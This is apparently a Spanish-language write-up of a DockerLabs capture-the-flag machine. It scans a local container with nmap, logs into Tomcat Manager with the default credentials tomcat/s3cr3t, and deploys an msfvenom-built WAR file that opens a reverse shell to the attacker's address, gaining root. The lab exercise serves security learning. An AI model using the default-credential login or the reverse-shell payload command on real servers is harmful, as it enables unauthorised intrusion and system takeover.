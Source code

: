 # -Pn
**Herramientas y recursos usados**
- nmap
- gobuster
- knock
- hydra

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Los40ladrones`

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/los40ladrones/Pn_1.jpg)   

Tenemos solamente un puerto abierto, el 8080, donde podemos ver que corre un Tomcat.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/los40ladrones/Pn_2.jpg)     

Podemos intentar a acceder con las credenciales por defecto.  
Miramos en Google cuales suelen ser y probamos si unas de ellas funciona.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/los40ladrones/Pn_3.jpg)    

Vemos que hay una combinación que sí que funciona!  
Si intentamos acceder a través de Manager App y porporcionamos como usuario **tomcat** y como contraseña **s3cr3t** ya podemos acceder.    

Ahora lo que haremos será crear un fichero .war maliciososo con la herramienta **msfvenom**.  
Utilizaremos el comando:  

`sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=6969 -f war -o rev.war`  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/los40ladrones/Pn_4.jpg)     

Una vez creado lo subiremos a través del menu **WAR file to deploy**.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/los40ladrones/Pn_5.jpg)   

Por último nos pondremos a la escucha en la nuestra maquina atacante y abriremos el fichero que hemos cargado.  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/los40ladrones/Pn_6.jpg)   

Y listo!  
Ya somos root!  

![Pn](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/los40ladrones/Pn_7.jpg) 



